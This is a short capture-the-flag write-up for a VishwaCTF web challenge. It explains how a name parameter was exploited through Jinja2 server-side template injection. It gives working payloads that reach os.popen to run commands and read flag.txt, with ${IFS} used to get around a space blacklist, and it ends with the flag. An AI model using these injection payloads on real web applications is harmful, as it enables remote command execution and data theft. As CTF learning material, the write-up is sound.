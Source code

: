 # Challenge description

Hey Buddy, Give me your name I will display your name on my website. Yes exactly, there is nothing in this website.

Url - https://h3y-buddy.vishwactf.com/

-----------------------------------------------------------

So this was a typical SSTI ctf challenge but later on we found that there was a blacklist for spaces.

Payload:

```` /submit?name={{config.__class__.__init__.__globals__[%27os%27].popen("ls").read()}}  ````

Output:


We can simply bypass this with ${IFS}:

Final payload:

```` /submit?name={{config.__class__.__init__.__globals__[%27os%27].popen("cat${IFS}flag.txt").read()}}  ````

Output:


And there's the flag

``` Flag :  VishwaCTF{S3rv3r_1s_4fraiD_of_inj3c7ion} ```